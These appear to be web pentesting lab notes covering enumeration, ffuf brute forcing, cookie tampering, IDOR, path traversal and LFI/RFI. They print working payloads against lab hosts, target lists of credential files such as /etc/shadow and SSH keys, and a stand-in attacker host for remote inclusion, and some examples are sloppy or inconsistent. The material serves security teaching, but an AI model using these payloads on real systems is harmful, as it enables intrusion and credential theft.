



# Web Pentesting

## Pentesting Fundamentals

| Stage | Description |
|---|---|
| Information Gathering | This stage involves collecting as much publically accessible information about a target/organisation as possible, for example, OSINT and research. <br> **Note:** This does not involve scanning any systems. |
| Enumeration/Scanning | This stage involves discovering applications and services running on the systems. For example, finding a web server that may be potentially vulnerable. |
| Exploitation | This stage involves leveraging vulnerabilities discovered on a system or application. This stage can involve the use of public exploits or exploiting application logic. |
| Privilege Escalation | Once you have successfully exploited a system or application (known as a foothold), this stage is the attempt to expand your access to a system. You can escalate horizontally and vertically, where horizontally is accessing another account of the same permission group (i.e. another user), whereas vertically is that of another permission group (i.e. an administrator). |
| Post-exploitation | This stage involves a few sub-stages: <br> 1. What other hosts can be targeted (pivoting) <br> 2. What additional information can we gather from the host now that we are a privileged user <br> 3. Covering your tracks <br> 4. Reporting |

<span style="font-size: 23px;">**Cyber Security Framework**</span>

[OSSTMM](https://github.com/mtesauro/owasp-wte/blob/master/temp-projects/wte-docs/contents/usr/share/doc/WTE-Documentation/OSSTMM/OSSTMM.3.pdf)

[OWASP](https://owasp.org/)

[NIST Cybersecurity Framework](https://www.nist.gov/cyberframework)

[NCSC CAF](https://www.ncsc.gov.uk/collection/cyber-assessment-framework/caf-objective-a-managing-security-risk)

---


**Black-Box Testing**

This testing process is a high-level process where the tester is not given any information about the inner workings of the application or service.

The tester acts as a regular user testing the functionality and interaction of the application or piece of software. This testing can involve interacting with the interface, i.e. buttons, and testing to see whether the intended result is returned. No knowledge of programming or understanding of the programme is necessary for this type of testing.

Black-Box testing significantly increases the amount of time spent during the information gathering and enumeration phase to understand the attack surface of the target.

**Grey-Box Testing**

This testing process is the most popular for things such as penetration testing. It is a combination of both black-box and white-box testing processes. The tester will have some **limited** knowledge of the internal components of the application or piece of software. Still, it will be interacting with the application as if it were a black-box scenario and then using their knowledge of the application to try and resolve issues as they find them.

With Grey-Box testing, the limited knowledge given saves time, and is often chosen for extremely well-hardened attack surfaces.

**White-Box Testing**

This testing process is a low-level process usually done by a software developer who knows programming and application logic. The tester will be testing the internal components of the application or piece of software and, for example, ensuring that specific functions work correctly and within a reasonable amount of time.

The tester will have **full** knowledge of the application and its expected behaviour and is much more time consuming than black-box testing. The full knowledge in a White-Box testing scenario provides a testing approach that guarantees the entire attack surface can be validated.

## Subdomain Enumeration

Subdomain enumeration is the process of finding valid subdomains for a domain, but why do we do this? We do this to expand our attack surface to try and discover more potential points of vulnerability.

We will explore three different subdomain enumeration methods: Brute Force, OSINT (Open-Source Intelligence) and Virtual Host.

### OSINT

<span style="font-size: 23px;">**SSL/TLS Certificates**</span>

When an SSL/TLS (Secure Sockets Layer/Transport Layer Security) certificate is created for a domain by a CA (Certificate Authority), CA's take part in what's called "Certificate Transparency (CT) logs". These are publicly accessible logs of every SSL/TLS certificate created for a domain name. The purpose of Certificate Transparency logs is to stop malicious and accidentally made certificates from being used. We can use this service to our advantage to discover subdomains belonging to a domain, sites like https://crt.sh offer a searchable database of certificates that shows current and historical results.

<span style="font-size: 23px;">**Search Engines**</span>

Search engines contain trillions of links to more than a billion websites, which can be an excellent resource for finding new subdomains. Using advanced search methods on websites like Google, such as the `site: filter`, can narrow the search results. For example, `site:*.domain.com -site:www.domain.com` would only contain results leading to the domain name domain.com but exclude any links to www.domain.com; therefore, it shows us only subdomain names belonging to domain.com.

<span style="font-size: 23px;">**Sublist3r**</span>

To speed up the process of OSINT subdomain discovery, we can automate the above methods with the help of tools like [Sublist3r](./bruteforcingtools.md#sublist3r).

```bash
user@thm:~$ ./sublist3r.py -d acmeitsupport.thm

          ____        _     _ _     _   _____
         / ___| _   _| |__ | (_)___| |_|___ / _ __
         \___ \| | | | '_ \| | / __| __| |_ \| '__|
          ___) | |_| | |_) | | \__ \ |_ ___) | |
         |____/ \__,_|_.__/|_|_|___/\__|____/|_|

         # Coded By Ahmed Aboul-Ela - @aboul3la

[-] Enumerating subdomains now for acmeitsupport.thm
[-] Searching now in Baidu..
[-] Searching now in Yahoo..
[-] Searching now in Google..
[-] Searching now in Bing..
[-] Searching now in Ask..
[-] Searching now in Netcraft..
[-] Searching now in Virustotal..
[-] Searching now in ThreatCrowd..
[-] Searching now in SSL Certificates..
[-] Searching now in PassiveDNS..
[-] Searching now in Virustotal..
[-] Total Unique Subdomains Found: 2
web55.acmeitsupport.thm
www.acmeitsupport.thm
```

### Bruteforce

Bruteforce DNS (Domain Name System) enumeration is the method of trying tens, hundreds, thousands or even millions of different possible subdomains from a pre-defined list of commonly used subdomains. Because this method requires many requests, we automate it with tools to make the process quicker. In this instance, we are using a tool called [dnsrecon](./bruteforcingtools.md#dnsrecon) to perform this.

```bash
user@thm:~$ dnsrecon -t brt -d acmeitsupport.thm
[*] No file was specified with domains to check.
[*] Using file provided with tool: /usr/share/dnsrecon/namelist.txt
[*]     A api.acmeitsupport.thm 10.10.10.10
[*]     A www.acmeitsupport.thm 10.10.10.10
[+] 2 Record Found
```

### Virtual Hosts 

Some subdomains aren't always hosted in publically accessible DNS results, such as development versions of a web application or administration portals. Instead, the DNS record could be kept on a private DNS server or recorded on the developer's machines in their `/etc/hosts` file (or `c:\windows\system32\drivers\etc\hosts` file for Windows users), which maps domain names to IP addresses. 

Because web servers can host multiple websites from one server when a website is requested from a client, the server knows which website the client wants from the Host header. We can utilize this host header by making changes to it and monitoring the response to see if we've discovered a new website.

Like with DNS Bruteforce, we can automate this process by using a wordlist of commonly used subdomains.

[FFUF](./bruteforcingtools.md#ffuf) 

```bash
root@ip-10-10-92-69:~# ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u http://10.10.200.87 -fs 2395

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.200.87
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt
 :: Header           : Host: FUZZ.acmeitsupport.thm
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 2395
________________________________________________

delta                   [Status: 200, Size: 51, Words: 7, Lines: 1]
yellow                  [Status: 200, Size: 56, Words: 8, Lines: 1]
:: Progress: [1907/1907] :: Job [1/1] :: 1784 req/sec :: Duration: [0:00:01] :: Errors: 0 ::
```
Let me explain the `ffuf` (Fuzz Faster U Fool) command:

```bash
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt \
     -H "Host: FUZZ.acmeitsupport.thm" \
     -u http://10.10.200.87 \
     -fs 2395
```

参数说明：
- `-w` : 指定要使用的词表文件路径
- `-H` : 设置 HTTP 请求头，这里设置 Host 头，`FUZZ` 是占位符，会被词表中的单词替换
- `-u` : 目标 URL
- `-fs 2395` : 过滤掉响应大小为 2395 字节的结果（通常用于过滤掉默认页面）

这个命令的作用是：
1. 从词表中读取子域名
2. 对每个子域名发起请求，如 `Host: delta.acmeitsupport.thm`
3. 检查响应，过滤掉大小为 2395 字节的响应
4. 显示其他响应（可能的有效子域名）

常用来发现:
- 虚拟主机
- 隐藏的子域名
- 开发/测试环境

## Authentication Bypass

### Username Enumeration

A helpful exercise to complete when trying to find authentication vulnerabilities is creating a list of valid usernames

```bash
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.248.31/customers/signup -mr "username already exists"
```

- `-w` argument selects the file's location on the computer that contains the list of usernames that we're going to check exists.
- `-X` argument specifies the request method, this will be a GET request by default, but it is a POST request in our example. 
- `-d` argument specifies the data that we are going to send. In our example, we have the fields username, email, password and cpassword. We've set the value of the username to **FUZZ**. In the ffuf tool, the FUZZ keyword signifies where the contents from our wordlist will be inserted in the request.
- `-H` argument is used for adding additional headers to the request. In this instance, we're setting the    so the web server knows we are sending form data. 
- `-u` argument specifies the URL we are making the request to
- `-mr` argument is the text on the page we are looking for to validate we've found a valid username.

```bash
root@ip-10-10-141-204:~# ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.248.31/customers/signup -mr "username already exists"

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : POST
 :: URL              : http://10.10.248.31/customers/signup
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Usernames/Names/names.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZ&email=x&password=x&cpassword=x
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Regexp: username already exists
________________________________________________

admin                   [Status: 200, Size: 3720, Words: 992, Lines: 77]
robert                  [Status: 200, Size: 3720, Words: 992, Lines: 77]
simon                   [Status: 200, Size: 3720, Words: 992, Lines: 77]
steve                   [Status: 200, Size: 3720, Words: 992, Lines: 77]
:: Progress: [10164/10164] :: Job [1/1] :: 842 req/sec :: Duration: [0:00:13] :: Errors: 0 ::
```

### Brute Force

Create a file called valid_usernames.txt and add the usernames that you found using ffuf.

**Note:** If you created your valid_usernames file by piping the output from ffuf directly you may have difficulty with this task. Clean your data, or copy just the names into a new file.

A brute force attack is an automated process that tries a list of commonly used passwords against either a single username or, like in our case, a list of usernames.

When running this command, make sure the terminal is in the same directory as the valid_usernames.txt file.

```bash
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.248.31/customers/login -fc 200
```
This ffuf command is a little different to the previous one in Task 2. Previously we used the FUZZ keyword to select where in the request the data from the wordlists would be inserted, but because we're using multiple wordlists, we have to specify our own FUZZ keyword.In this instance:

- `W1` for our list of valid usernames.
- `W2` for the list of passwords we will try. 
- `-w` the multiple wordlists are again specified with the `-w` argument but separated with a comma.
- `-fc` For a positive match, we're using the -fc argument to check for an HTTP status code other than **200**.

```bash
root@ip-10-10-141-204:~# ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.248.31/customers/login -fc 200

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : POST
 :: URL              : http://10.10.248.31/customers/login
 :: Wordlist         : W1: valid_usernames.txt
 :: Wordlist         : W2: /usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=W1&password=W2
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response status: 200
________________________________________________

[Status: 302, Size: 0, Words: 1, Lines: 1]
    * W1: steve
    * W2: thunder

:: Progress: [400/400] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::

```

### Logic Flaw

<span style="font-size: 23px;">**What is a Logic Flaw?**</span>

Sometimes authentication processes contain logic flaws. A logic flaw is when the typical logical path of an application is either bypassed, circumvented or manipulated by a hacker. Logic flaws can exist in any area of a website, but we're going to concentrate on examples relating to authentication in this instance.


<span style="font-size: 23px;">**Logic Flaw Example**</span>

The below mock code example checks to see whether the start of the path the client is visiting begins with /admin and if so, then further checks are made to see whether the client is, in fact, an admin. If the page doesn't begin with /admin, the page is shown to the client.

```bash
if( url.substr(0,6) === '/admin') {
    # Code to check user is an admin
} else {
    # View Page
}
```
Because the above PHP code example uses three equals signs (===), it's looking for an exact match on the string, including the same letter casing. The code presents a logic flaw because an unauthenticated user requesting `/adMin` will not have their privileges checked and have the page displayed to them, totally bypassing the authentication checks.

<span style="font-size: 23px;">**Logic Flaw Practical**</span>

We're going to examine the **Reset Password** function of the Acme IT Support website (http://10.10.151.62/customers/reset). We see a form asking for the email address associated with the account on which we wish to perform the password reset. If an invalid email is entered, you'll receive the error message "**Account not found from supplied email address**".

Let me explain this cURL command that appears to be testing a password reset functionality:

```markdown
### Password Reset Request Analysis

```bash
curl 'http://10.10.151.62/customers/reset?email=robert@acmeitsupport.thm' \
     -H 'Content-Type: application/x-www-form-urlencoded' \
     -d 'username=robert&email=steve@customer.acmeitsupport.thm'
```

**Command breakdown:**
- **URL**: Sends request to `/customers/reset` with email parameter
- **Header**: Sets content type for form data
- **Data**: Sends POST data with different credentials
  - `username=robert`
  - `email=steve@customer.acmeitsupport.thm`

**Potential Logic Flaw Test:**
- Email in URL parameter (`robert@acmeitsupport.thm`) differs from email in POST data (`steve@customer.acmeitsupport.thm`)
- This might be testing for a logic flaw where the application doesn't properly validate which email is used for the reset

**Security Implications:**
- Could allow attackers to reset passwords for other users
- Might bypass proper authorization checks
- Tests parameter pollution vulnerability

### Cookie Tampering

Examining and editing the cookies set by the web server during your online session can have multiple outcomes, such as unauthenticated access, access to another user's account, or elevated privileges.

<span style="font-size: 23px;">**Plain Text**</span>

The contents of some cookies can be in plain text, and it is obvious what they do. Take, for example, if these were the cookie set after a successful login:

|   |
|---|
| Set-Cookie: logged_in=true; Max-Age=3600; Path=/ |   
| Set-Cookie: admin=false; Max-Age=3600; Path=/ |


We see one cookie (logged_in), which appears to control whether the user is currently logged in or not, and another (admin), which controls whether the visitor has admin privileges. Using this logic, if we were to change the contents of the cookies and make a request we'll be able to change our privileges.

First, we'll start just by requesting the target page:

```bash
root@ip-10-10-37-56:~# curl http://10.10.151.62/cookie-test
Not Logged In
```

Now we'll send another request with the logged_in cookie set to true and the admin cookie set to false:

```bash
root@ip-10-10-37-56:~# curl -H "Cookie: logged_in=true; admin=false" http://10.10.151.62/cookie-test
Logged In As A User
```

Finally, we'll send one last request setting both the logged_in and admin cookie to true:

```bash
root@ip-10-10-37-56:~# curl -H "Cookie: logged_in=true; admin=true" http://10.10.151.62/cookie-test
Logged In As An Admin - THM{COOKIE_TAMPERING}
```

<span style="font-size: 23px;">**Hashing**</span>

Sometimes cookie values can look like a long string of random characters; these are called hashes which are an irreversible representation of the original text. Here are some examples that you may come across:

| Original String | Hash Method | Output                                                         |
| --------------- | ----------- | -------------------------------------------------------------- |
| 1               | md5         | c4ca4238a0b923820dcc509a6f75849b                               |
| 1               | sha-256     | 6b86b273ff34fce19d6b804eff5a3f5747ada4eaa22f1d49c01e52ddb7875b4b |
| 1               | sha-512     | 4dff4ea340f0a823f15d3f4f01ab62eae0e5da579ccb851f8db9dfe84c58b2b37b89903a740e1ee172da793a6e79d560e5f7f9bd058a12a280433ed6fa46510a |
| 1               | sha1        | 356a192b7913b04c54574d18c28d46e6395428ab                       |

You can see from the above table that the hash output from the same input string can significantly differ depending on the hash method in use. Even though the hash is irreversible, the same output is produced every time, which is helpful for us as services such as https://crackstation.net/ keep databases of billions of hashes and their original strings.

<span style="font-size: 23px;">**Encoding**</span>

Encoding is similar to hashing in that it creates what would seem to be a random string of text, but in fact, the encoding is reversible. So it begs the question, what is the point in encoding? Encoding allows us to convert binary data into human-readable text that can be easily and safely transmitted over mediums that only support plain text ASCII characters.

Common encoding types are base32 which converts binary data to the characters A-Z and 2-7, and base64 which converts using the characters a-z, A-Z, 0-9,+, / and the equals sign for padding.

Take the below data as an example which is set by the web server upon logging in:

**Set-Cookie: session=eyJpZCI6MSwiYWRtaW4iOmZhbHNlfQ==; Max-Age=3600; Path=/**

This string base64 decoded has the value of {"id":1,"admin": false} we can then encode this back to base64 encoded again but instead setting the admin value to true, which now gives us admin access.

## IDOR

<span style="font-size: 23px;">**What is an IDOR?**</span>

IDOR stands for Insecure Direct Object Reference and is a type of access control vulnerability.

**Insecure direct object references (IDOR)** are a type of access control vulnerability that arises when an application uses user-supplied input to access objects directly. The term IDOR was popularized by its appearance in the OWASP 2007 Top Ten.

This type of vulnerability can occur when a web server receives user-supplied input to retrieve objects (files, data, documents), too much trust has been placed on the input data, and it is not validated on the server-side to confirm the requested object belongs to the user requesting it.

### Encoded IDs

When passing data from page to page either by post data, query strings, or cookies, web developers will often first take the raw data and encode it. Encoding ensures that the receiving web server will be able to understand the contents. Encoding changes binary data into an ASCII string commonly using the `a-z, A-Z, 0-9 and =` character for padding. The most common encoding technique on the web is base64 encoding and can usually be pretty easy to spot. You can use websites like https://www.base64decode.org/ to decode the string, then edit the data and re-encode it again using https://www.base64encode.org/ and then resubmit the web request to see if there is a change in the response.


### Hashed IDs

Hashed IDs are a little bit more complicated to deal with than encoded ones, but they may follow a predictable pattern, such as being the hashed version of the integer value. For example, the Id number 123 would become 202cb962ac59075b964b07152d234b70 if md5 hashing were in use.

It's worthwhile putting any discovered hashes through a web service such as https://crackstation.net/ (which has a database of billions of hash to value results) to see if we can find any matches.

### Unpredictable IDs

If the Id cannot be detected using the above methods, an excellent method of IDOR detection is to create two accounts and swap the Id numbers between them. If you can view the other users' content using their Id number while still being logged in with a different account (or not logged in at all), you've found a valid IDOR vulnerability.

### Where are they located?

The vulnerable endpoint you're targeting may not always be something you see in the address bar. It could be content your browser loads in via an AJAX request or something that you find referenced in a JavaScript file. 

Sometimes endpoints could have an unreferenced parameter that may have been of some use during development and got pushed to production. For example, you may notice a call to `/user/details` displaying your user information (authenticated through your session). But through an attack known as parameter mining, you discover a parameter called `user_id` that you can use to display other users' information, for example, `/user/details?user_id=123`

## File Inclusion

### introduction

<span style="font-size: 23px;">**What is File inclusion?**</span>

In some scenarios, web applications are written to request access to files on a given system, including images, static text, and so on via parameters. Parameters are query parameter strings attached to the URL that could be used to retrieve data or perform actions based on user input. The following diagram breaks down the essential parts of a URL.


<span style="font-size: 23px;">**Why do File inclusion vulnerabilities happen?**</span>

File inclusion vulnerabilities are commonly found and exploited in various programming languages for web applications, such as PHP that are poorly written and implemented. The main issue of these vulnerabilities is the input validation, in which the user inputs are not sanitized or validated, and the user controls them. When the input is not validated, the user can pass any input to the function, causing the vulnerability.

<span style="font-size: 23px;">**What is the risk of File inclusion?**</span>

By default, an attacker can leverage file inclusion vulnerabilities to leak data, such as code, credentials or other important files related to the web application or operating system. Moreover, if the attacker can write files to the server by any other means, file inclusion might be used in tandem to gain remote command execution (RCE).

### Path Traversal

Also known as **Directory traversal**, a web security vulnerability allows an attacker to read operating system resources, such as local files on the server running an application. The attacker exploits this vulnerability by manipulating and abusing the web application's URL to locate and access files or directories stored outside the application's root directory.

Path traversal vulnerabilities occur when the user's input is passed to a function such as file_get_contents in PHP. It's important to note that the function is not the main contributor to the vulnerability. Often poor input validation or filtering is the cause of the vulnerability. In PHP, you can use the `file_get_contents` to read the content of a file. You can find more information about the function [here](https://www.php.net/manual/en/function.file-get-contents.php).

The following graph shows how a web application stores files in `/var/www/app`. The happy path would be the user requesting the contents of userCV.pdf from a defined path `/var/www/app/CVs`.


We can test out the URL parameter by adding payloads to see how the web application behaves. Path traversal attacks, also known as the `dot-dot-slash` attack, take advantage of moving the directory one step up using the double dots `../`. If the attacker finds the entry point, which in this case `get.php?file=`, then the attacker may send something as follows, `http://webapp.thm/get.php?file=../../../../etc/passwd`

Suppose there isn't input validation, and instead of accessing the PDF files at `/var/www/app/CVs` location, the web application retrieves files from other directories, which in this case `/etc/passwd`. Each .. entry moves one directory until it reaches the root directory `/`. Then it changes the directory to `/etc`, and from there, it read the `passwd` file.


As a result, the web application sends back the file's content to the user.


Similarly, if the web application runs on a Windows server, the attacker needs to provide Windows paths. For example, if the attacker wants to read the `boot.ini` file located in `c:\boot.ini`, then the attacker can try the following depending on the target OS version:

`http://webapp.thm/get.php?file=../../../../boot.ini` or

`http://webapp.thm/get.php?file=../../../../windows/win.ini`

The same concept applies here as with Linux operating systems, where we climb up directories until it reaches the root directory, which is usually .

Sometimes, developers will add filters to limit access to only certain files or directories. Below are some common OS files you could use when testing.

| Location                      | Description                                                                                                                                                                                   |
|-------------------------------|-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| `/etc/issue`                  | contains a message or system identification to be printed before the login prompt.                                                                                                          |
| `/etc/profile`                | controls system-wide default variables, such as Export variables, File creation mask (umask), Terminal types, Mail messages to indicate when new mail has arrived                       |
| `/proc/version`                | specifies the version of the Linux kernel                                                                                                                                                    |
| `etc/passwd`                  | has all registered users that have access to a system                                                                                                                                      |
| `/etc/shadow`                 | contains information about the system's users' passwords                                                                                                                                    |
| `/root/.bash_history`          | contains the history commands for `root` user                                                                                                                                                 |
| `/var/log/dmessage`           | contains global system messages, including the messages that are logged during system startup                                                                                             |
| `/var/mail/root`              | all emails for `root` user                                                                                                                                                                  |
| `/root/.ssh/id_rsa`           | Private SSH keys for a root or any known valid user on the server                                                                                                                          |
| `/var/log/apache2/access.log` | the accessed requests for `Apache` web server                                                                                                                                                   |
| `C:\boot.ini`                 | contains the boot options for computers with BIOS firmware                                                                                                                                  |

### Local File Inclusion

<span style="font-size: 23px;">**Local File Inclusion (LFI)**</span>

LFI attacks against web applications are often due to a developers' lack of security awareness. With PHP, using functions such as `include`, `require`, `include_once`, and `require_once` often contribute to vulnerable web applications. In this room, we'll be picking on PHP, but it's worth noting LFI vulnerabilities also occur when using other languages such as ASP, JSP, or even in Node.js apps. LFI exploits follow the same concepts as path traversal.

In this section, we will walk you through various `LFI` scenarios and how to exploit them.

#1. Suppose the web application provides two languages, and the user can select between the EN and AR

```php
<?PHP 
	include($_GET["lang"]);
?>
```

The PHP code above uses a **GET** request via the URL parameter **lang** to include the file of the page. The call can be done by sending the following HTTP request as follows: `http://webapp.thm/index.php?lang=EN.php` to load the English page or `http://webapp.thm/index.php?lang=AR.php` to load the Arabic page, where `EN.php` and `AR.php` files exist in the same directory.

Theoretically, we can access and display any readable file on the server from the code above if there isn't any input validation. Let's say we want to read the `/etc/passwd` file, which contains sensitive information about the users of the Linux operating system, we can try the following: `http://webapp.thm/get.php?file=/etc/passwd`

#2. Next, In the following code, the developer decided to specify the directory inside the function.

```php
<?PHP 
	include("languages/". $_GET['lang']); 
?>
```

In the above code, the developer decided to use the **include** function to call **PHP** pages in the **languages** directory only via **lang** parameters.

If there is no input validation, the attacker can manipulate the URL by replacing the **lang** input with other OS-sensitive files such as **/etc/passwd**.

Again the payload looks similar to the **path traversal**, but the include function allows us to include any called files into the current page. The following will be the exploit:

`http://webapp.thm/index.php?lang=../../../../etc/passwd`

#3. In the first two cases, we checked the code for the web app, and then we knew how to exploit it. However, in this case, we are performing black box testing, in which we don't have the source code. In this case, errors are significant in understanding how the data is passed and processed into the web app.

`http://10.10.165.105/lab3.php?file=../../../../etc/passwd%00`

#4. In this section, the developer decided to filter keywords to avoid disclosing sensitive information! The /etc/passwd file is being filtered. There are two possible methods to bypass the filter. First, by using the NullByte %00 or the current directory trick at the end of the filtered keyword `/..` The exploit will be similar to `http://webapp.thm/index.php?lang=/etc/passwd/`. We could also use `http://webapp.thm/index.php?lang=/etc/passwd%00`.

To make it clearer, if we try this concept in the file system using `cd ..`, it will get you back one step; however, if you do `cd .`, It stays in the current directory. Similarly, if we try /`etc/passwd/..`, it results to be `/etc/` and that's because we moved one to the root. Now if we try `/etc/passwd/.`, the result will be `/etc/passwd` since dot refers to the current directory.

```bash
http://10.10.165.105/lab4.php?file=../../../../etc/passwd/.
```
#5. Next, in the following scenarios, the developer starts to use input validation by filtering some keywords. Let's test out and check the error message!

If we check the warning message in the `include(languages/etc/passwd)` section, we know that the web application replaces the `../` with the empty string. There are a couple of techniques we can use to bypass this.

This works because the PHP filter only matches and replaces the first subset string ../ it finds and doesn't do another pass, leaving what is pictured below.


```bash
http://10.10.165.105/lab5.php?file=....//....//....//....//....//etc/passwd
```
#6. Finally, we'll discuss the case where the developer forces the include to read from a defined directory! For example, if the web application asks to supply input that has to include a directory such as: `http://webapp.thm/index.php?lang=languages/EN.php` then, to exploit this, we need to include the directory in the payload like so: `?lang=languages/../../../../../etc/passwd`.

```bash
http://10.10.165.105/lab6.php?file=THM-profile/../../../../etc/os-release
```

### Remote File Inclusion

<span style="font-size: 23px;">**Remote File Inclusion - RFI**</span>

Remote File Inclusion (RFI) is a technique to include remote files into a vulnerable application. Like LFI, the RFI occurs when improperly sanitizing user input, allowing an attacker to inject an external URL into **include** function. One requirement for RFI is that the **allow_url_fopen** option needs to be **on**.

Remote File Inclusion (RFI) is a cyber attack where an attacker exploits a vulnerability in a web application to include malicious files from a remote server. By injecting URLs into input fields, attackers can execute arbitrary code on the target server, leading to potential system compromise or unauthorised access.

The risk of RFI is higher than LFI since RFI vulnerabilities allow an attacker to gain Remote Command Execution (RCE) on the server. Other consequences of a successful RFI attack include:

- Sensitive Information Disclosure
- Cross-site Scripting (XSS)
- Denial of Service (DoS)

An external server must communicate with the application server for a successful RFI attack where the attacker hosts malicious files on their server. Then the malicious file is injected into the include function via HTTP requests, and the content of the malicious file executes on the vulnerable application server.

<span style="font-size: 23px;">**RFI steps**</span>


The figure above is an example of steps for a successful RFI attack! Let's say that the attacker hosts a PHP file on their own server `http://attacker.thm/cmd.txt` where `cmd.txt` contains a printing message `Hello THM`.

```php
<?PHP echo "Hello THM"; ?>
```
